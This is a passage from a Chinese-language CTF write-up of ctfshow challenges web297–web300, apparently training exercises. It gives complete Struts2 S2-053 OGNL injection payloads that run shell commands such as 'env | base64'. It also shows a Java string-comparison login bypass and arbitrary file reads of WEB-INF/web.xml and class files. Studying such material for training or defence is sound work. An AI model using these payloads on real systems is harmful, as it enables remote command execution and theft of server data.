    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```



# web297

## #S2-053

https://github.com/vulhub/vulhub/blob/master/struts2/s2-053/README.zh-cn.md

https://cloud.tencent.com/developer/article/2197868

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

## 影响版本

2.0.1 <= Struts2 <= 2.3.33，2.5 <= Struts2 = 2.5.10

POC

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```



然后直接打就行

但是env的内容被花括号截断了，可以将输出进行base64编码，用`env | base64`

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd="env | base64").(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

# web298

## #Java基础

 将war包放jadx中进行反编译处理后用IDEA打开

看到loginServlet

```java
package com.ctfshow.servlet;

import com.ctfshow.model.User;
import com.ctfshow.util.Util;
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/* loaded from: ctfshow.war:WEB-INF/classes/com/ctfshow/servlet/loginServlet.class */
public class loginServlet extends HttpServlet {
    private static final long serialVersionUID = -3044593499093610703L;

    public void destroy() {
        super.destroy();
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        String username = request.getParameter("username");
        String password = request.getParameter("password");
        User user = new User(username, password);
        if (username == "admin") {
            out.print("you are not admin");
        } else if (user.getVipStatus()) {
            out.print("you are login");
            String flag = Util.readFlag("/flag");
            out.print(flag);
        } else {
            out.print("login failed");
        }
        out.flush();
        out.close();
    }

    public void init() throws ServletException {
    }
}
```

可以看到这里有一个get请求，需要传入一个username和password，但是有一个`username=="admin"`的校验，但是由于我们传入的username是一个new String对象，本质上不是一个常量值。所以这里在 Java 中 `==` 比较的是**对象引用地址**，而不是字符串内容。

写个测试代码

```java
package TestCode;

import java.io.IOException;

public class Test {
    public static void main(String[] args) throws IOException {
        String s1 = new String("Hello");

        System.out.println(s1 == "Hello");//false
    }
}
```

所以第一个if是始终为false的，继续看第二个，跟进User的getVipStatus方法

```java
    public boolean getVipStatus() {
        if (this.username.equals("admin") && this.password.equals("ctfshow")) {
            return true;
        }
        return false;
    }
```

所以直接传`username=admin&password=ctfshow`就可以了

看看这个Servlet绑定在哪个路由

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app version="3.0" 
	xmlns="http://java.sun.com/xml/ns/javaee" 
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
	xsi:schemaLocation="http://java.sun.com/xml/ns/javaee 
	http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd">
  <display-name></display-name>	
  <welcome-file-list>
    <welcome-file>index.jsp</welcome-file>
  </welcome-file-list>

  <servlet>
    <description>This is the description of my J2EE component</description>
    <display-name>This is the display name of my J2EE component</display-name>
    <servlet-name>login</servlet-name>
    <servlet-class>com.ctfshow.servlet.loginServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>login</servlet-name>
    <url-pattern>/login</url-pattern>
  </servlet-mapping>

  	
    
</web-app>
```

所以路径就是`/ctfshow/login`，因为一个war包就是一个web应用，我们需要带上war包的名称，也就是War 包部署到 Tomcat 时的**应用名**

```java
/ctfshow/login?username=admin&password=ctfshow
```

# web299

## #任意文件读取

在源代码中有

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
  <head>
    <base href="http://7f95921e-e040-47c8-8bc3-c27872c56345.challenge.ctf.show:80/">
    
    <title>where is flag?</title>
	<meta http-equiv="pragma" content="no-cache">
	<meta http-equiv="cache-control" content="no-cache">
	<meta http-equiv="expires" content="0">    
	<meta http-equiv="keywords" content="keyword1,keyword2,keyword3">
	<meta http-equiv="description" content="This is my page">
	<!--
	<link rel="stylesheet" type="text/css" href="styles.css">
	-->
  </head>
  
  <body>
   where is flag?<br>
   <!-- /view-source?file=index.php -->
  </body>
</html>

```

存在一个任意文件读取，访问`/view-source?file=index.php`啥都没有，换成java的试试，对应java的就是index.jsp

```jsp
<%@ page language="java" 
    import="java.util.*" pageEncoding="ISO-8859-1"%>
<%
String path = request.getContextPath();
String basePath = request.getScheme()+"://"+request.getServerName()+":"+request.getServerPort()+path+"/";
%>
```

那我们尝试读取一些重要的文件

读取WEB-INF/web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app version="3.0" 
    xmlns="http://java.sun.com/xml/ns/javaee" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
    xsi:schemaLocation="http://java.sun.com/xml/ns/javaee 
    http://java.sun.com/xml/ns/javaee/web-app_3_0.xsd">

  <display-name></display-name>

  <servlet>
    <description>This is the description of my J2EE component</description>
    <display-name>This is the display name of my J2EE component</display-name>
    <servlet-name>ViewSourceServlet</servlet-name>
    <servlet-class>com.ctfshow.servlet.ViewSourceServlet</servlet-class>
  </servlet>

  <servlet>
    <description>This is the description of my J2EE component</description>
    <display-name>This is the display name of my J2EE component</display-name>
    <servlet-name>GetFlag</servlet-name>
    <servlet-class>com.ctfshow.servlet.GetFlag</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>ViewSourceServlet</servlet-name>
    <url-pattern>/view-source</url-pattern>
  </servlet-mapping>

  <servlet-mapping>
    <servlet-name>GetFlag</servlet-name>
    <url-pattern>/getFlag</url-pattern>
  </servlet-mapping>

  <welcome-file-list>
    <welcome-file>index.jsp</welcome-file>
  </welcome-file-list>

</web-app>
```

可以看到还有一个/getFlag路由，访问一下发现啥都没有，那就读一下这个文件的内容，可以直接读class文件

```java
WEB-INF/classes/com/ctfshow/servlet/GetFlag.class
```



有点乱，但能看到flag在`/fl3g`中，直接目录遍历就行了

# web300

## #php+java任意文件读取

居然是php的代码？？？

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

尝试包含jsp文件，jsp文件中并没有php代码，所以include并不会解析jsp文件，会直接回显内容

```jsp
 <% pageContext.forward("index.php"); %>
```

和上面一样，最终拿到一个flag文件名为/f1bg


